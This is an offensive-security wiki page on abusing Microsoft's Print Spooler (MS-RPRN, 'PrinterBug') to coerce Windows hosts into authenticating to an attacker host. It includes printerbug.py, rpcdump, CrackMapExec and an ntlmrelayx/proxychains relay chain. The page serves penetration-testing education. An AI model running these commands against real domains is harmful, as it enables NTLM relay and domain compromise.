 # MS-RPRN abuse (PrinterBug)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

**The coerced authentications are made over SMB**. But MS-RPRN abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

{% tabs %}
{% tab title="printerbug" %}
Using [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) (python) Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the spooler service is running.

```bash
crackmapexec smb $IP -u $USER -p $PASSWORD -M spooler
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available (Windows) using  [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell)

```powershell
.\SpoolerScan.ps1
```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}
